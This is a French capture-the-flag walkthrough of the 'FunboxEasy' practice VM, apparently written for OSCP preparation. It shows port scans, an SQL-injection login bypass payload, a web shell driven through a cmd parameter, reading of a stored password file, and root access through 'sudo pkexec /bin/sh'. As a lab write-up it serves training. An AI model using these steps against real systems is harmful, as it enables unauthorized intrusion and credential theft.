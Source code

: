 # FunboxEasy

    sudo nmap -A -p1-10000 192.168.249.111
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.249.111 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.249.111
    feroxbuster -u http://192.168.249.111

Scans classiques. 

J'ai repéré et inspecté quelques URL intéressantes : 

    http://192.168.249.111/admin
    http://192.168.249.111/gym/ 
    http://192.168.249.111/gym/ex/admin/
    http://192.168.249.111/gym/admin/
    http://192.168.249.111/secret
    http://192.168.249.111/store/database
    ...

On peut facilement contourner le formulaire de login qui se situe sur la page http://192.168.249.111/admin grâce à ce petit exploit : https://www.exploit-db.com/exploits/47874

On peut aussi, grâce au même payload ( '=''or' ), modifier le mot de passe de l'administrateur sur la page http://192.168.249.111/admin/change-password.php 

Sur la page http://192.168.249.111/store/admin_add.php on voit qu'une erreur SQL sort quand on tente d'ajouter un livre. Pour me rapprocher des conditions d'examen, j'ai choisi de creuser les exploits existants au lieu de bêtement passer par SQLMap, puisque ce dernier est interdit pour l'OSCP.

Et j'ai directement trouvé un exploit vérifié qui menait à une RCE : https://www.exploit-db.com/exploits/47887

    vim exploit_OnlineBookStore.py
    python2.7  exploit_OnlineBookStore.py http://192.168.249.111/store 

Bien entourer les commandes de guillemets sous peine d'avoir des exceptions et de faire crasher le shell.

Ou directement visiter les URL sur un navigateur une fois le web-shell injecté.
Exemple : http://192.168.249.111/store/bootstrap/img/nG2CKRPfqR.php?cmd=id

    RCE $ 'ls /home/tony '
    RCE $ 'cat /home/tony/password.txt'

On voit le mot de passe pour le SSH, le mot de passe pour http://192.168.249.111/gym/admin et le mot de passe pour http://192.168.249.111/store 

À noter que le mot de passe pour /store correspondait bien au mot de passe que j'avais trouvé dans le fichier http://192.168.249.111/store/database/www_project.sql en récupérant le hash puis en le crackant avec Hashcat. Il y avait sûrement énormément de manières différentes de terminer cette VM.

L'élévation de privilèges est triviale :

    ssh  -l tony 192.168.249.111
    sudo -l
    sudo pkexec /bin/sh
    find / -name "local.txt" 2>/dev/null
    cat /var/www/local.txt
    ls /root
    cat /root/proof.txt

    
